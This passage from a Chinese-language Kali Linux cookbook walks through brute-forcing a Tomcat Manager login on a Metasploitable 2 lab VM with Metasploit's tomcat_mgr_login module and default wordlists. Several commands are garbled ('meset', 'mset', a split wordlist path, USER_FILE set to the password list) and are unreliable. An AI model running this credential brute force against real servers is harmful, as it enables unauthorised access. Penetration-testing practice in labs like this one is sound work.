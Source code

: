     ```
    msfconsole 
    ```
    
3.  搜索可用的 Tomcat 模块。

    ```
    msfconsole tomcat
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/6-8-1.jpg)
    
4.  使用 Tomcat Application Manager Login Utility。

    ```
    use auxiliary/scanner/http/tomcat_mgr_login 
    ```
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
    > 要注意我们有很多设置为“是”的项目，它们都是必须的。我们使用它们的默认值。
        
6.  设置`Pass_File`：

    ```
    PASS_FILE meset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```
    
7.  设置`Pass_File`：

    ```
    USER_FILE mset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```

8.  设置目标的`RHOST`，这里我们选择我们的 Metasploitable 2 主机：

    ```
    set RHOSTS 192.168.10.111
    ```
    
9.  将`RPORT`设置为 8180：

    ```
    set RPORT 8180
    ```
    
0.  执行漏洞利用：

    ```
    Exploit
    ```
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来利用   Metasploitable 2 靶机上的 Tomcat 漏洞。我们以启动控制台并搜索所有已知的 Tomcat 模块来开始。在选择 Tomcat 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 Tomcat 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 Tomcat 数据库。之后找到生效的登录和密码组合旁边的`+`符号就可以了。
